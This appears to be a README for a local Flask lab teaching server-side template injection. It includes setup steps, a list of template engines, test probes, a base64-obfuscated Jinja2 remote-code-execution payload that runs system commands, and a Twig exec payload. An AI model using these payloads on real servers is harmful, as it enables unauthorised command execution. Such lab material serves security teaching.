 
# Requirements:

* apt-get install python
* apt-get install python-pip
* pip install flask
* pip install jinja2

# Steps:
* Download lab file 
* export FLASK_APP=ssti-lab.py
* flask run
* http://127.0.0.1:5000

# Original Blog:
https://portswigger.net/research/server-side-template-injection

# Web Template Engines:

* FreeMarker - Java-based template engine
* Velocity - Java-based template engine
* Smarty - PHP Template engine
* Twig - PHP Template engine
* Jade - Node.js Template engine
* Jinja2 - Python/Flask Template engine

# Basic Payload:

* `{{7*7}}`
* `{{7*'7'}}`

# RCE PAYLOAD - JINJA2:
`{{5096754695}}{{''}}{%+set+d+=+"eval(__import__('base64').urlsafe_b64decode('X19pbXBvcnRfXygnb3MnKS5wb3BlbihfX2ltcG9ydF9fKCdiYXNlNjQnKS51cmxzYWZlX2I2NGRlY29kZSgnZFc1aGJXVWdMV0U9JykuZGVjb2RlKCkpLnJlYWQoKQ=='))"+%}{%+for+c+in+[].__class__.__base__.__subclasses__()+%}+{%+if+c.__name__+==+'catch_warnings'+%}
{%+for+b+in+c.__init__.__globals__.values()+%}+{%+if+b.__class__+==+{}.__class__+%}
{%+if+'eval'+in+b.keys()+%}
{{+b['eval'](d)+}}
{%+endif+%}+{%+endif+%}+{%+endfor+%}
{%+endif+%}+{%+endfor+%}{{''}}{{9776394213}}`

Note: Decode decode base64 string to to place system commands

# RCE PAYLOAD - TWIG:
`{{_self.env.registerUndefinedFilterCallback("exec")}}{{_self.env.getFilter("id")}}`

# Automation tool for SSTI exploitation:
[TPLMap](https://github.com/epinna/tplmap)
